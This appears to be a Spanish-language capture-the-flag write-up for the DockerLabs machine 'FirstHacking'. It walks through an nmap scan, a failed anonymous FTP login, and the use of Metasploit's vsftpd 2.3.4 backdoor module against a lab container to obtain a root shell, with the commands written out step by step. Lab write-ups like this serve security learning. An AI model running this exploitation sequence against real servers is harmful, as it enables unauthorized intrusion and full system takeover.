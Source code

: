 
# Maquina FirstHacking | Explotación de VSFTPD 2.3.4 con Metasploit

![Inicio](https://github.com/xavis3c/Writeups-dockerlabs/blob/Recursos/Screenshot%202025-03-14%20at%2015-50-58%20DockerLabs.png)


## 🔎 Escaneo inicial con Nmap  
Iniciamos con un escaneo para detectar puertos abiertos y versiones de servicios:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -sV -vvv -n -Pn 172.17.0.2
```

### Explicación:
- **`-p-`** → Escanea todos los puertos (1-65535).  
- **`--open`** → Muestra solo los puertos abiertos.  
- **`-sS`** → Escaneo stealth SYN (rápido y sigiloso).  
- **`--min-rate 5000`** → Acelera el escaneo enviando 5000 paquetes/seg.  
- **`-sV`** → Detecta versiones de servicios.  
- **`-vvv`** → Muestra más detalles.  
- **`-n`** → No resuelve DNS (más rápido).  
- **`-Pn`** → Asume que el host está activo.  

###  Resultado:
Solo encontramos **el puerto 21 (FTP) abierto**.  

---

##  Intento de acceso con anonymous FTP  
Primero, probamos si podemos conectarnos con usuario anónimo:  

```bash
ftp 172.17.0.2
```

Si el servidor permite **anonymous login**, podríamos acceder sin credenciales. Esto suele permitir:
- Descargar archivos públicos.
- En algunos casos, **subir archivos maliciosos** si el servidor está mal configurado.  

 **En este caso, el acceso anónimo no funcionó.** Seguimos buscando otra forma de entrar.  

---

##  Buscamos exploits para vsftpd 2.3.4  
Ejecutamos en la terminal:  

```bash
searchsploit vsftpd 2.3.4
```


El resultado nos da dos opciones:
1. Un exploit en **Python**.  
2. Un exploit en **Metasploit** (el que usaremos).  

---

##  Explotación con Metasploit  
Abrimos Metasploit en modo silencioso:

```bash
msfconsole -q
```

 **Diferencias:**  
- `msfconsole` → Abre Metasploit con la pantalla de inicio.  
- `msfconsole -q` → Lo abre en modo silencioso.  

Buscamos el exploit:

```bash
search vsftpd 2.3.4
```

El resultado nos muestra el exploit disponible:  
```bash
0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03  excellent  No  VSFTPD v2.3.4 Backdoor Command Execution
```

Seleccionamos el exploit con:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

Despues metemos un:

```bash
show options
```

---

##  Lanzando el exploit  
Configuramos el objetivo:

```bash
set RHOSTS 172.17.0.2
```


`use` = Escoge el exploit o módulo.<br/>
`set` = Configura parámetros necesarios.<br/>



Ejecutamos el ataque:

```bash
run
```
o  
```bash
exploit
```

Si todo sale bien, tendremos una **shell remota**.  

---

##  Comprobando acceso root  
Ejecutamos:

```bash
whoami
```

Listo, somos `root` 

---

## Conclusión  
Hemos explotado **vsftpd 2.3.4** y conseguido acceso **root** en la máquina.   

⚠ **Este material es solo para aprendizaje y CTFs legales. No lo uses en sistemas sin autorización.**
---

**En mi pagina web (Blog) subo las maquinas más a detalle, normalmento lo hago primero alla por quien guste puede checarlo de aquel lado tambien.** 

https://elyoxsecurity.com/category/maquinas/
